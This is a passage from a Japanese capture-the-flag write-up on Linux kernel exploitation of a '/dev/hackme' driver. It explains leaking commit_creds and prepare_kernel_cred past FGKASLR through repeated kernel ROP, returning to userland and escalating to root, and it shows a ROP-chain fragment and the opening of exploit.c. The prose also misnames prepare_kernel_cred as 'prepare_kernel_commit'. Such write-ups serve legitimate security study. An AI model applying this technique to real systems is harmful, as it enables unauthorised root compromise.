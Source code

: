 ```chain-to-leak-ksymtab.asm
  *c++ = user_ss;
  _write(fd, wbuf, 0x130);
```
すると、`iretq`の直前には以下のようになって、ちゃんとこと`NIRUGIRI()`に帰れることがわかる。(因みに、なんでか上手くユーザランドに帰れなくて小一時間ほど時間を浪費してしまったが、結局`_write()`で書き込むバイト数が足りておらず、`user_ss`等を書き込めていなかったことが原因だった)
![](https://i.imgur.com/4Gn15ia.png)

但し、まだNIRUGIRIをするには早すぎる。一回のkROPでできることは一つのleakだけだから、これを複数回繰り返してleakを行う。具体的にはleakするシンボルは、`commit_creds`と`prepare_kernel_commit`である。`current_task`に関してはFGKASLRの影響を受けないため問題ない。

# get ROOT
上の方法で`commit_creds()`と`prepare_kernel_commit()`をleakしたら、同様に **neorop++** でFGKASLRに影響されないガジェットを探し、あとは全く同じ方法で`commit_creds(prepare_kernel_commit(0))`をするだけである。最後の着地点はユーザランドのシェルを実行する関数にすれば良い。`

# exploit
```exploit.c
#define _GNU_SOURCE
#include <string.h>
#include <stdio.h>
#include <fcntl.h>
#include <stdint.h>
#include <unistd.h>
#include <assert.h>
#include <stdlib.h>
#include <signal.h>
#include <poll.h>
#include <pthread.h>
#include <err.h>
#include <errno.h>
#include <sched.h>
#include <linux/bpf.h>
#include <linux/filter.h>
#include <linux/userfaultfd.h>
#include <linux/prctl.h>
#include <sys/syscall.h>
#include <sys/ipc.h>
#include <sys/msg.h>
#include <sys/prctl.h>
#include <sys/ioctl.h>
#include <sys/mman.h>
#include <sys/types.h>
#include <sys/xattr.h>
#include <sys/socket.h>
#include <sys/uio.h>
#include <sys/shm.h>


// commands
#define DEV_PATH "/dev/hackme"   // the path the device is placed

// constants
#define PAGE 0x1000
#define FAULT_ADDR 0xdead0000
#define FAULT_OFFSET PAGE
#define MMAP_SIZE 4*PAGE
#define FAULT_SIZE MMAP_SIZE - FAULT_OFFSET
// (END constants)

// globals
// (END globals)

```
